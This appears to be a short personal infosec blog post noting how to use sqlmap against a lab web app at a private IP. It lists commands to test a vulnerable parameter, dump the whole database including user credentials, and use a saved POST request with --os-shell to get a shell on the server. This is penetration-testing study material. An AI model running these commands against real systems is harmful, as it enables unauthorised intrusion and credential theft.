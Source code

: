 ```yaml
---
layout: post
title: sqlmap
titledate: 09/03/23
tags: ["infosec","offsec", "sql"]
---
```


run sqlmap on web app specifying url and vulnerable parameter

    $ sqlmap -u http://192.168.50.50/blindsqli.php?user=1 -p user

dump entire database including user creds

    $ sqlmap -u http://192.168.50.50/blindsqli.php?user=1 -p user --dump

time-base sqli are not preferred when interacting with a shell so we use union based attacks

we can intercept the POST request with burp that includes the vulnerable parameter and save it as a txt file post.txt

    $ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"

here we invoke sqlmap with the r param pointing to our post request and p for the vuln parameter




